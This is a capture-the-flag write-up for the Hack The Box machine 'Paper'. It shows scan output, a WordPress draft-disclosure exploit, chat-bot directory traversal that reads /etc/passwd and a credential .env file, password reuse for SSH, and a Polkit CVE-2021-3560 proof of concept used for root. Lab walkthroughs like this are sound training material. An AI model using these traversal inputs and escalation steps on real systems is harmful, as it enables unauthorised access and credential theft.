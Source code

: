 # HTB Paper

**Machine Information**

	IP : 10.10.11.143
	OS : Linux

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.11.143 -- -sC -sV
```

```
PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp  open  http     syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods:
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain
| Subject Alternative Name: DNS:localhost.localdomain
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US/emailAddress=root@localhost.localdomain/organizationalUnitName=ca-3899279223185377061
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-07-03T08:52:34
| Not valid after:  2022-07-08T10:32:34
| MD5:   579a:92bd:803c:ac47:d49c:5add:e44e:4f84
| SHA-1: 61a2:301f:9e5c:2603:a643:00b5:e5da:5fd5:c175:f3a9
| -----BEGIN CERTIFICATE-----
| MIIE4DCCAsigAwIBAgIIdryw6eirdUUwDQYJKoZIhvcNAQELBQAwgY8xCzAJBgNV
| BAYTAlVTMRQwEgYDVQQKDAtVbnNwZWNpZmllZDEfMB0GA1UECwwWY2EtMzg5OTI3
| OTIyMzE4NTM3NzA2MTEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjAeFw0yMTA3
| MDMwODUyMzRaFw0yMjA3MDgxMDMyMzRaMG4xCzAJBgNVBAYTAlVTMRQwEgYDVQQK
| DAtVbnNwZWNpZmllZDEeMBwGA1UEAwwVbG9jYWxob3N0LmxvY2FsZG9tYWluMSkw
| JwYJKoZIhvcNAQkBFhpyb290QGxvY2FsaG9zdC5sb2NhbGRvbWFpbjCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBAL1/3n1pZvFgeX1ja/w84jNxT2NcBkux
| s5DYnYKeClqncxe7m4mz+my4uP6J1kBP5MudLe6UE62KFX3pGc6HCp2G0CdA1gQm
| 4WYgF2E7aLNHZPrKQ+r1fqBBw6o3NkNxS4maXD7AvrCqkgpID/qSziMJdUzs9mS+
| NTzWq0IuSsTztLpxUEFv7T6XPGkS5/pE2hPWO0vz/Bd5BYL+3P08fPsC0/5YvgkV
| uvFbFrxmuOFOTEkrTy88b2fLkbt8/Zeh4LSdmQqriSpxDnag1i3N++1aDkIhAhbA
| LPK+rZq9PmUUFVY9MqizBEixxRvWhaU9gXMIy9ZnPJPpjDqyvju5e+kCAwEAAaNg
| MF4wDgYDVR0PAQH/BAQDAgWgMAkGA1UdEwQCMAAwIAYDVR0RBBkwF4IVbG9jYWxo
| b3N0LmxvY2FsZG9tYWluMB8GA1UdIwQYMBaAFBB8mEcpW4ZNBIaoM7mCF/Z+7ffA
| MA0GCSqGSIb3DQEBCwUAA4ICAQCw4uQfUe+FtsPdT0eXiLHg/5kXBGn8kfJZ45hP
| gcuwa5JfAQeA3JXx7piTSiMMk0GrWbqbrpX9ZIkwPnZrN+9PV9/SNCEJVTMy+LDQ
| QGsyqwkZpMK8QThzxRvXvnyf3XeEFDL6N4YeEzWz47VNlddeqOBHmrDI5SL+Eibh
| wxNj9UXwhEySUpgMAhU+QtXk40sjgv4Cs3kHvERvpwAfgRA7N38WY+njo/2VlGaT
| qP+UekP42JveOIWhf9p88MUmx2QqtOq/WF7vkBVbAsVs+GGp2SNhCubCCWZeP6qc
| HCX0/ipKZqY6zIvCcfr0wHBQDY9QwlbJcthg9Qox4EH1Sgj/qKPva6cehp/NzsbS
| JL9Ygb1h65Xpy/ZwhQTl+y2s+JxAoMy3k50n+9lzCFBiNzPLsV6vrTXCh7t9Cx07
| 9jYqMiQ35cEbQGIaKQqzguPXF5nMvWDBow3Oj7fYFlCdLTpaTjh8FJ37/PrhUWIl
| Li+WW8txrQKqm0/u1A41TI7fBxlUDhk6YFA+gIxX27ntQ0g+lLs8rwGlt/o+e3Xa
| OfcJ7Tl0ovWa+c9lWNju5mgdU+0v4P9bqv4XcIuyE0exv5MleA99uOYE1jlWuKf1
| m9v4myEY3dzgw3IBDmlYpGuDWQmMYx8RVytYN3Z3Z64WglMRjwEWNGy7NfKm7oJ4
| mh/ptg==
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_ssl-date: TLS randomness does not represent time
|_http-title: HTTP Server Test Page powered by CentOS
| tls-alpn:
|_  http/1.1
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
```

### Getting a Foothold

Accessing the web server on port 80 shows a test page without any useful information.

**Dirsearch**

Running `dirsearch` reveals two endpoints but nothing of interest is available.

```
dirsearch -u http://10.10.11.143
```

```
[19:57:23] 200 -  171B  - /.npm/anonymous-cli-metrics.json
[19:57:47] 200 -    9KB - /manual/index.html
```

Looking at the requests in Burp Suites shows something interesting. Despite the homepage returning content it is being registered as a status code 403. Checking the headers also shows a potential vhost.

```
HTTP/1.1 403 Forbidden
Date: Mon, 29 Jul 2024 10:02:23 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

Update the `/etc/hosts` file. Visiting the vhost we can now see a WordPress site called **Blunder Tiffin**. This is using version 5.2.3 of WordPress which is vulnerable to CVE-2019-17671. Looking at this exploit shows an easy way to reveal additional information.

<https://www.exploit-db.com/exploits/47690>

If we append `?static=1` to our website we can see more information about Michael putting secrets in the drafts. 

<http://office.paper/?static=1>

The page also includes a link to a new vhost that we will need to updated in `/etc/hosts`.

<http://chat.office.paper/register/8qozr226AhkCHZdyY>

We can register an account and gain access to the Rocket Chat system. The chat shows a bot called `recyclops` that answers a few questions but it appears that the group chat is read only. However, there is a message from Kelly that shows that we can direct message the bot "We can also send Direct Messages to recyclops!".

Using this open a direct message to `recyclops` and type `help` to get the list of commands. Using the the `list` and `get` commands we can interact with files in on the underlying system. The bot is vulnerable to directory traversal so we can get the `/etc/passwd` file with the following command:

```
file ../../../etc/passwd
```

```
root❌0:0:root:/root:/bin/bash
bin❌1:1:bin:/bin:/sbin/nologin
daemon❌2:2:daemon:/sbin:/sbin/nologin
adm❌3:4:adm:/var/adm:/sbin/nologin
lp❌4:7:lp:/var/spool/lpd:/sbin/nologin
sync❌5:0:sync:/sbin:/bin/sync
shutdown❌6:0:shutdown:/sbin:/sbin/shutdown
halt❌7:0:halt:/sbin:/sbin/halt
mail❌8:12:mail:/var/spool/mail:/sbin/nologin
operator❌11:0:operator:/root:/sbin/nologin
games❌12💯games:/usr/games:/sbin/nologin
ftp❌14:50:FTP User:/var/ftp:/sbin/nologin
nobody❌65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus❌81:81:System message bus:/:/sbin/nologin
systemd-coredump❌999:997:systemd Core Dumper:/:/sbin/nologin
systemd-resolve❌193:193:systemd Resolver:/:/sbin/nologin
tss❌59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
polkitd❌998:996:User for polkitd:/:/sbin/nologin
geoclue❌997:994:User for geoclue:/var/lib/geoclue:/sbin/nologin
rtkit❌172:172:RealtimeKit:/proc:/sbin/nologin
qemu❌107:107:qemu user:/:/sbin/nologin
apache❌48:48:Apache:/usr/share/httpd:/sbin/nologin
cockpit-ws❌996:993:User for cockpit-ws:/:/sbin/nologin
pulse❌171:171:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
usbmuxd❌113:113:usbmuxd user:/:/sbin/nologin
unbound❌995:990:Unbound DNS resolver:/etc/unbound:/sbin/nologin
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony❌993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd❌75:75:radvd user:/:/sbin/nologin
clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd❌983:981:User for sssd:/:/sbin/nologin
colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm❌42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod❌976:974:mongod:/var/lib/mongo:/bin/false
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

Exploring the folders in the home directory shows one called `hubot`. There is a `.env` file in there that looks interesting. If we get the file it reveals credentials for the bot.

```
file ../hubot/.env
```

Since we know `dwight` is a user we can see if this password has been reused.

```
ssh dwight@10.10.11.143
```

Success!

```
[dwight@paper ~]$ w
 06:36:41 up 48 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
dwight   pts/0    10.10.14.21      06:36    1.00s  0.02s  0.00s w
```

Grab the flag.

```
cat /home/dwight/user.txt
```

### Privilege Escalation

Running `linPEAS` shows that the target machine is potentially vulnerable to CVE-2021-3560. We found the following proof of concept to use.

<https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation>

Run the exploit to create a new user with `sudo` privileges.

```
./poc.sh -u=null -p=null
```

Switch to our newly created user.

```
su - null
```

If everything worked we should be able to drop into a root shell.

```
sudo bash
```

**NOTE:** this took multiple attempts but eventually worked

Grab the flag.

```
cat /root/root.txt
```
